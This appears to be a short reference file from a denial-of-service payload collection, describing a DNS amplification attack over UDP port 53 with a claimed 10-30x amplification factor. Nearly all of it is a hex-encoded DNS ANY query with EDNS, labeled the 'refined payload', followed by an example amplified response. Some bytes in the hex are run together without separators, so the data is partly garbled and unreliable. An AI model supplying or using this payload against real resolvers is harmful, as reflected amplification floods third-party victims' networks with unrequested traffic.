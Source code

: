 # DNS-Amplification

## Port: 53

## Proto: UDP

## Amplification factor: 10-30x

### Refined payload
From 44 Byte to 500 Byte
<pre>C4\75\01\00\00\01\00\00\00\00\00\01\00\00\FF\00\01\00\00\29\23\28\00\00\00\00\00\00\00\00\00\00\00<pre>

### Example response

<pre>C4\75\81\8000\01\00\0E\00\00\00\01\00\00\FF\00\01\00\00\0200\01\00\00\23\AF\00\14\01\6C\0C\72\6F\6F\74\2D73\65\72\76\65\72\73\03\6E\65\74\00\00\00\02\0001\00\00\23\AF\00\04\01\6B\C0\1E\00\00\02\00\0100\00\23\AF\00\04\01\67\C0\1E\00\00\02\00\01\0000\23\AF\00\04\01\69\C0\1E\00\00\02\00\01\00\0023\AF\00\04\01\6A\C0\1E\00\00\02\00\01\00\00\23AF\00\04\01\66\C0\1E\00\00\02\00\01\00\0023\AF00\04\01\62\C0\1E\00\00\02\00\01\00\00\23\AF\0004\01\61\C0\1E\00\00\02\00\01\00\00\23\AF\00\0401\68\C0\1E\00\00\02\00\01\00\00\23\AF\00\04\016D\C0\1E\00\00\02\00\01\00\00\23\AF\00\04\01\63C0\1E\00\00\02\00\01\00\00\23\AF\00\04\01\64\C01E\00\00\02\00\01\00\00\23\AF\00\04\01\65\C0\1E00\00\2E\00\01\00\00\23\AF\01\13\00\02\08\00\0007\E9\00\68\54\EA\D0\68\43\B9\40\CF\9C\00\22\5811\A8\0F\4D\30\FF\1C\42\2F\86\56\48\C1\45\C9\2A6D\85\D4\03\EE\CF\17\FE\F5\60\31\5E\84\43\C5\8BBC\4F\8F\3D\5F\08\23\D0\A0\92\7B\75\2C\4F\8D\41A5\A0\94\F1\DC\0F\7E\2B\5E\B3\AB\B7\8C\AB\EC\67AA\9D\14\A2\22\88\EC\95\A1\B8\EB\F8\3C\5D\E1\D875\17\98\62\F3\16\EB\22\95\38\25\90\54\32\5A\DE2C\50\D3\9E\9F\23\4F\B9\B5\9A\24\08\8D\A1\8B\E084\44\4E\68\69\47\2D\7E\F8\18\03\0A\85\81\BB\B187\F5\11\8A\FD\5F\3A\2C\74\1D\56\90\26\E5\FC\9755\E5\88\3D\AA\0F\92\55\12\A1\6B\C0\AB\EE\B0\DBBD\A7\26\A0\31\C5\AA\99\44\38\7B\92\79\3B\A7\10CC\DB\C3\44\60\D1\CA\E1\BC\15\E7\1D\02\4A\A8\423D\E4\A8\28\63\D7\85\AB\E6\98\8E\E0\27\3D\DC\EF70\42\DE\8B\D7\04\AE\8D\3E\77\E6\79\78\7C\AE\F9A9\76\53\66\96\78\CC\BC\25\76\5B\A1\4D\B3\20\D4A\F3\95\7B\80\B6\1F\C6\CD\2D\B9\66\2D\A5\00\0029\04\D0\00\00\00\00\00\00\</pre>
